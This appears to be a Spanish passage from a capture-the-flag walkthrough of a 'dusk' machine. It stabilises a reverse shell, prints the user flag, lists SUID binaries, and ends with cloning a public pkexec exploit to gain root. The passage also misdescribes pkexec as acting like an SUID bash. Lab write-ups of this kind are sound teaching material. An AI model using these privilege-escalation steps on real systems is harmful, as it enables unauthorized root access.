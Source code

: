 ```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Si nos vamos a la `/home` del usuario `dusk` leeremos la flag...

> user.txt (flag1)

```
08ebacf8f4e43f05b8b8b372df24235b
```

Si ponemos el siguiente comando...

```shell
www-data@dusk:/home/dusk$ find / -type f -perm -4000 -ls 2>/dev/null
   268427     12 -rwsr-xr-x   1 root     root        10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
   145522     52 -rwsr-xr--   1 root     messagebus    51184 Jun  9  2019 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
   148913    428 -rwsr-xr-x   1 root     root         436552 Oct  6  2019 /usr/lib/openssh/ssh-keysign
   150647     20 -rwsr-xr-x   1 root     root          18888 Jan 15  2019 /usr/lib/policykit-1/polkit-agent-helper-1
   167366    156 -rwsr-xr-x   1 root     root         157192 Oct 12  2019 /usr/bin/sudo
   134602     44 -rwsr-xr-x   1 root     root          44440 Jul 27  2018 /usr/bin/newgrp
   131132     44 -rwsr-xr-x   1 root     root          44528 Jul 27  2018 /usr/bin/chsh
   131134     84 -rwsr-xr-x   1 root     root          84016 Jul 27  2018 /usr/bin/gpasswd
   131136     64 -rwsr-xr-x   1 root     root          63736 Jul 27  2018 /usr/bin/passwd
   135083     52 -rwsr-xr-x   1 root     root          51280 Jan 10  2019 /usr/bin/mount
   135085     36 -rwsr-xr-x   1 root     root          34888 Jan 10  2019 /usr/bin/umount
   131131     56 -rwsr-xr-x   1 root     root          54096 Jul 27  2018 /usr/bin/chfn
   150645     24 -rwsr-xr-x   1 root     root          23288 Jan 15  2019 /usr/bin/pkexec
   134749     64 -rwsr-xr-x   1 root     root          63568 Jan 10  2019 /usr/bin/su
```

Veremos que hay una linea interesante...

```
150645     24 -rwsr-xr-x   1 root     root          23288 Jan 15  2019 /usr/bin/pkexec
```

Esto actua como un `/bin/bash` con permisos `SUID` por lo que si hacemos lo siguiente podremos ser `root`...

URL = https://github.com/Almorabea/pkexec-exploit

```shell
git clone https://github.com/Almorabea/pkexec-exploit.git
```
